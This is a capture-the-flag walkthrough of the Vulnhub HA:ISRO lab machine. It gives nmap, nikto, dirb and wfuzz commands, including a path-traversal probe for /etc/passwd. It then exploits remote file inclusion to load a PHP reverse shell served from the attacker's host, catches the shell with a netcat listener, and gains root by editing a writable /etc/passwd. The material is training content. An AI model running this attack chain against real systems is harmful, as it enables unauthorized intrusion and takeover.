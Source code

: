 # HA:ISRO ~Vulnhub Walkthrough


Here is a walk through for ISRO Vulnhub Machine. It was created by Hacking Articles to give tribute to the Indian Space Research Organisation (ISRO).

Download link -[https://download.vulnhub.com/ha/isro.zip](https://download.vulnhub.com/ha/isro.zip)

## Scanning

nmap -p- 192.168.122.151

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled.png)

nmap -sV -A 192.168.122.151 

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%201.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%201.png)

nmap -sV -A -p65534 192.168.122.151 

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%202.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%202.png)

## Enumeration

Running nikto 

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%203.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%203.png)

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%204.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%204.png)

dirb [http://192.168.122.151/](http://192.168.122.151/) -X .php,.html

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%205.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%205.png)

Found file connect.php

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%206.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%206.png)

Finding parameter

wfuzz -w /usr/share/wordlists/dirb/common.txt --hl 0 [http://192.168.122.151/connect.php](http://192.168.122.151/connect.php)?FUZZ=../../../../../../etc/passwd

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%207.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%207.png)

Found parameter **file**

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%208.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%208.png)

## Exploitation

File parameter is vulnerable to RFI

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%209.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%209.png)

start python server on your machine and open php-reverse-shell.php file in browser using rfi vulnerability. 

Attacker  - python3 -m http.server 5000

192.168.122.1451/connect.php?file=http://192.168.122.148:5000/php-reverse-shell.php

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2010.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2010.png)

Side by side start netcat listener to take reverse shell

nc -nlvp 1234

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2011.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2011.png)

## Privilege escalation

Checking permissions of /etc/passwd

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2012.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2012.png)

/etc/passwd file is writeble

Edit passwd file and change password for root user.

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2013.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2013.png)

su - root

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2014.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2014.png)

***Got root shell.

![HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2015.png](HA%20ISRO%20~Vulnhub%20Walkthrough%209fc3427ec243459bbf989c0f4b1ed46f/Untitled%2015.png)

